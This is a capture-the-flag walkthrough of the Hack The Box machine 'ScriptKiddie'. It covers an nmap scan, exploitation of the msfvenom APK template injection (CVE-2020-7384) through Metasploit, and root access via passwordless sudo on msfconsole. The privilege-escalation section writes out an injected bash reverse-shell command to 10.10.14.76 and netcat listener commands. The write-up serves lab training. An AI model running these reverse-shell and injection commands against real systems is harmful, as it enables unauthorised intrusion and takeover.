 # ScriptKiddie

## Nmap Scan
Let's start with a nmap scan to extract the open ports
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 09:38 EDT
Nmap scan report for 10.10.10.226
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=4/22%OT=22%CT=1%CU=40802%PV=Y%DS=2%DC=T%G=Y%TM=60817C7
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   148.11 ms 10.10.14.1
2   148.18 ms 10.10.10.226

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.09 seconds
```

We can see that the ports 5000 and 22 are open, 5000 for http and 22 for ssh

Open the following link in the browser : http://10.10.10.226:5000

![alt text](https://miro.medium.com/max/1050/1*kHKLfZcara8e5gh-YGbe1Q.png)

A very simple page with 3 sections, Nmap scan, msfvenom and searchSploit.
We can try command injection adn file Upload vulnerabilty.
After some research we found that is APK template command injection Vulnerabilty : CVE-2020-7384

## Metasploit
Let's create a payload with metasploit framework using the exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection module.
The generated payload is with .apk extension.
First, start a netcat listener on the port 5555
```
nc -nlvp 5555
```
Now we can upload the payload with the Android platform and our ip address.
In our machine, we can see that the reverse connection has been established.
User flag is in users.txt flag

## Privilege Escalation
In the logs directory, we can see that the file named hackers is owned by the group pwn, so we can execute commands with this group.
Now let's establish a reverse shell using this file.
Fisrt, start another netcat listener on the port 1234
```
nc -nlvp 1234
```
now in the box machine, run the following command :

```
echo "   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.76/1234 0>&1' #" >> hackers
```

BOOOOOOOOOM, the reverse connection has been made but this time with user pwn. But we need the root user, let's give a look at the sudo permissions with this command :
```
sudo -l
```
```
User pwn may run the following commands on ScriptKiddie:
  (root) NOPASSWORD: /opt/metasploit-framework-6.0.9/msfconsole
```

Nice, so we can run metasploit with root privileges and without a password
```
sudo msfconsole
```
get access to the shell
```
msf6>/bin/bash
```
now we are logged in with root user.
The system falg is located at root.txt file





